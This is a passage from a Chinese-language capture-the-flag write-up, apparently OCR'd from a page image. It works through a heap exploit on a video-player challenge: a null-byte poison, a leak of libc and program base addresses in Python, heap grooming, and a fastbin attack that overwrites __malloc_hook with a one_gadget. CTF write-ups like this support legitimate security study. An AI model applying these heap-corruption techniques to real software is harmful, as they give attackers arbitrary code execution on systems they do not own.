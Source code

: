 ```python
remove(idx + 7)#free c

#null poison exploitation done!
#now bins are clear and b and c are merged to unsorted bin chunk
#take 0x90 chunk to arrive b2

create_video("video", 0x20) #12
#will malloc 0x50 and 0x20, consuming 0x90

create_video("struct to leak everything", 0x20) #13
#consum 0x90

leak_data = ""
leak_data = play_video(idx + 10)
prog_addr = u64(leak_data[:8]) - 0x203C70
libc_addr = u64(leak_data[0x90:0x98]) - (0x7f3be0421b78 - 0x7f3be005d000)
assert (prog_addr & 0xfff == 0) and (prog_addr & 0xfff == 0)
print hex(prog_addr)
print hex(libc_addr)
```

然后对堆做一些清理，进行下一阶段的利用

```python
create_video("consume the 0x200 unsorted bin chunk", 0x200 - 0x60 - 0x10) # 14
remove(idx + 5) #delete subtitle
#causing 0x111 chunk in heap
create_video("consume that 0x111 chunk", 0x110 - 0x60 - 0x10) # 15
#now bins are empty again
```

# 0x05 fastbin attack

本来想溢出盖指针实现任意写这样直接利用的，就不用攻击堆管理器了比较简单，然后能直接改data字段的数据结构也就只有subtitle，所以就想通过subtitle那个整形溢出直接溢出他自己的类对象，改写指针到`__free_hook`，然后发现不行，因为`subtitle_init 0x26D0`在后面会把`data`字段delete掉，这个时候会delete掉`__free_hook`的地址，直接出错。。。

然后试着构造一个unsorted bin overlap chunk，就是覆盖unsorted bin的头延伸chunk大小，同时在相应新大小的尾部也要有正确的`prev_size`和`size`，这能使得unsorted bin的chunk跟subtitle的类重合，再次`new`就可以重写`subtitle`的类，然后就快成功了，我在`subtitle_edit 295A`突然发现了这行代码。。。

```python
if ( read(0, a1->field_8, 4uLL) <= 4 )
    exit(1);
```

小于等于4。。小于等于4。。。也就是说这个执行了一定会退出。。。看到这里有种想打死出题人的冲动。。。

所以还是攻击堆管理器吧（为什么早不这么做呢），可以fastbin attack写`__malloc_hook`到[one_gadget](https://github.com/david942j/one_gadget)。。这个具体原理说一下，就是在`__malloc_hook`前有一个`0x7fxxxxxxxxxx`的地址，后面紧随一个0，然后我们可以利用这个0x7f做一个伪造的0x70 fastbin chunk（思考在小端情况下这两个数在内存中的布局），可以把在0x70的fastbin的fd指针写成`libc_addr + e.symbols["__malloc_hook"] - 3 - 0x10`，这样malloc两次0x70就能覆盖`__malloc_hook`了。这个利用的是libc在分配fastbin中的free chunk时只会检查size，而且不会检查低4位，什么prev size，align和next chunk都不会检查，所以可以这么利用。
